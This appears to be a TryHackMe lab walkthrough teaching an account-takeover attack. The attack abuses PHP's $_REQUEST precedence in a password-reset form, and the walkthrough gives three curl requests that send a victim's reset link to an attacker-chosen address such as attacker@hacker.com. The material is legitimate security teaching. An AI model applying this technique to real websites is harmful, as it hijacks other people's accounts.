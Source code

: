 At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.

This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.

**Curl Request 1:**

```plaintext
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

**Curl Request 2:**

```plaintext
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png align="center")

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**  

Now rerunning **Curl Request 2** but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```plaintext
user@tryhackme:~$ curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

**Answer the questions below**
